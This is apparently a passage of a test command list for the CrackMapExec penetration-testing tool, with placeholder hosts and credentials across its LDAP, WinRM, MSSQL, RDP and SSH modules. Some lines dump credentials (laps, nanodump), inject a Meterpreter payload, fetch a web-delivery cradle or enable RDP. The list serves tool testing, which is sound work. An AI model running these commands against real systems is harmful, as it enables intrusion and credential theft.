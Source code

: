 crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M adcs<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M adcs --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M daclread -o TARGET=USERNAME ACTION=read<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M daclread --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M get-desc-users<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M get-desc-users --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M get-network<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M get-network --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M groupmembership --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M groupmembership -o USER=USERNAME<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M laps<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M laps --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ldap-checker<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ldap-checker --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M maq<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M maq --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M subnets<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M subnets --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M user-desc<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M user-desc --options<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M whoami<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M whoami --options<br>
##### WINRM<br>
crackmapexec winrm TARGET_HOST -u USERNAME -p PASSWORD KERBEROS # need an extra space after this command due to regex<br>
crackmapexec winrm TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -X whoami<br>
crackmapexec winrm TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --laps<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS<br>
##### MSSQL<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS<br>
##### MSSQL Modules<br>
# crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD -M empire_exec<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -L<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M met_inject -o SRVHOST=127.0.0.1 SRVPORT=4444 RAND=12345<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M met_inject --options<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M mssql_priv<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M mssql_priv --options<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M nanodump<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M nanodump --options<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M test_connection --options<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M test_connection -o HOST=localhost<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M web_delivery --options<br>
crackmapexec mssql TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M web_delivery -o URL=localhost/dl_cradle<br>
# a bit janky, but we try to enable RDP before testing RDP<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M rdp -o ACTION=enable<br>
##### RDP<br>
crackmapexec rdp TARGET_HOST -u USERNAME -p PASSWORD KERBEROS # need an extra space after this command due to regex<br>
crackmapexec rdp TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --nla-screenshot<br>
##### SSH - Default test passwords and random key; switch these out if you want correct authentication<br>
crackmapexec ssh TARGET_HOST -u USERNAME -p PASSWORD<br>